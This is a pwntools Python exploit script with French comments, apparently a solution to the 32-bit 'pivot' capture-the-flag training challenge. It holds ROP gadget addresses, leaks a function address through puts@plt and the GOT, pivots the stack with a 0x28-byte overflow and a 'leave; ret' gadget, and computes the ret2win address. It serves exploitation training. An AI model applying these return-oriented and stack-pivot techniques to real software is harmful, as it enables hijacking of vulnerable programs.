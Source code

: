 ```python
g_pop_ebx=0x80484a9

# add eax, ebx ; ret
g_add_eax_ebx=0x8048833

# call eax
g_call_eax = 0x80485f0

# leave; ret
g_leave = 0x080485f5


io = process([elf.path])
if len(sys.argv)>1 and sys.argv[1] == "-d":
    gdb.attach(io,gs)
    time.sleep(1)
    #io = gdb.debug([elf.path],gdbscript=gs)


io.recvuntil(b"to pivot:")
leak = io.recvline().rstrip()
print(leak)
leak = int(leak,16)
log.info(f"{leak=:x}")
log.info(f"{plt_foothold=:x}")
log.info(f"{got_foothold=:x}")
log.info(f"offset ret2win = 0x{off_ret2win}")

# ETAPE 1 - Message 1
# ROP chaine d'exploitation
PL=b''
PL+=p32(plt_foothold)         # Pour charger la G0T
PL+=p32(plt_puts)             # puts@plt
PL+=p32(g_pop_ebx)            # gadget de conso du parametre
PL+=p32(got_foothold)         # parametere de puts
PL+=p32(pwnme)                # Retour dans pwnme

io.sendlineafter(b"> ",PL)

# ETAPE 1 - Message 2 : pivot
# Offset avant ecrasement de l'adresse de EBP
offset=0x28

PL =b"A"*offset
PL+=p32(leak-4)     # pour SEBP
PL+=p32(g_leave)    # pour SEIP
io.sendlineafter(b"> ",PL)

# ETAPE INTERMEDIAIRE
# Le puts est effectué on lit l'adresse de foothold.
# Reception du leak puts
io.recvline()
io.recvline()
rep = io.recvline().rstrip()
print(rep)
info(rep.hex())
#leak=u32(rep[:4]+b"\x00\x00")
leak=u32(rep[:4])

# Calcule de l'adresse de ret2win
ret2win = leak+off_ret2win
info(f"foothold leak={leak:x}")
info(f"ret2win      ={ret2win:x}")
```